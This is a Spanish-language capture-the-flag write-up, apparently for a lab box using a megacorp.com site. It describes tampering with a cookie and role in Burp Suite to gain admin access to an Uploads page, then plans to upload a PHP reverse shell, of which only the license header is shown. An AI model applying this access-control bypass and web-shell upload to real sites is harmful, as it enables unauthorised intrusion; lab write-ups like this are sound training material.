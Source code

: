 ![[2023-10-06_14-20.png]]

Info:
```css
	--AccessID:34322
	--Name:admin
	--Email:admin@megacorp.com
```

##### Ok necesitamos accesso como administrador para ver la pestana de #Uploads asi que vamos de nuevo al burpsuite e intentemos interceptar la peticion para cambiar nuestro AccessID de guest por el AccessID del usuario admin a ver si esto nos da mas informacion.

```css
	--:Burpsuite
	--:Intercep is On
	--:Ahora vamos a la pagia e intentamos entrat en Uploads
```

##### Notamos que la pagina se queda cargando asi que hemos interceptado la peticion correctamente. 
##### ahora Cambiamos la Cookie del Usuario guest por la cookie del usuario admin y el #role del usuario guest por admin: 


![[2023-10-06_14-51.png]]

##### Precionamos el boton #Forward para que la peticion con la modificacion que acabamos de hacer se envie y verificamos en la pagina.

![[2023-10-06_14-56.png]]

##### Podemos ver que ahora tenemos acceso a la pestana de Uploads. parace que podemos subir archivos a esta pagina. asi que intentaremos subir un archivo malisioso para intentar consegir una reverseShell

buscamos en internet una reverseshell.php

shell.php
```css

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
```